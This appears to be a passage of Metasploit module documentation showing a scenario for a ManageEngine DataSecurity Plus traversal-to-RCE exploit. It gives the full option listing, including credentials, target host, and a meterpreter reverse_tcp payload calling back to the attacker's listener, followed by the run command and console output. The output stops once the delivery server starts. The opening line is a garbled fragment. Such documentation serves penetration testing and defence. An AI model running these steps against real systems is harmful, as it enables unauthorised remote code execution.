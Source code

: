 ```
lies\administrator
```
### ManageEngine DataSecurity Plus 6.0.1 (6010) on Windows Server 2012 - WEB_DELIVERY_VIA_PSH => false
```
msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > options 

Module options (exploit/windows/http/manageengine_datasecurity_plus_traversal_rce):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   CUSTOM_PAYLOAD        false            no        Enable use of payloads other than windows/x64/meterpreter/reverse_*
   PASSWORD              chegan           yes       Password used to authenticate to the Xnode server
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RESTORE_SCHEMA_DIR    true             no        Upon successful exploitation, repopulate <datasecurity_install_dir>\apps\dataengine-xnode\conf\datarepository\schema with the default JSON files
   RHOSTS                192.168.1.225    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 8800             yes       The target port (TCP)
   SRVHOST               0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT               8080             yes       The local port to listen on.
   SSL                   false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                no        The URI to use for this exploit (default is random)
   USERNAME              atom             yes       Username used to authenticate to the Xnode server
   VHOST                                  no        HTTP server virtual host
   WEB_DELIVERY_VIA_PSH  false            yes       If enabled (default), the module will use only Powershell (in memory) to deliver the payload. If disabled, the Regsvr32 web delivery method is used
   XNODE_PORT            29119            yes       The Xnode port


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.128    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   DataSecurity Plus

msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > run
msf6 exploit(windows/http/manageengine_datasecurity_plus_traversal_rce) > 
[+] Successfully authenticated to the Xnode server
[*] Obtained Xnode installation path: 'C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode'.
[+] The target appears to be vulnerable. Target is running Xnode version: XNODE_1_0_0
[*] Using URL: http://192.168.1.128:8080/JKxqtuT6N0SR
[*] Server started.
[*] Obtained expected Xnode "de_healh" status: "GREEN".
```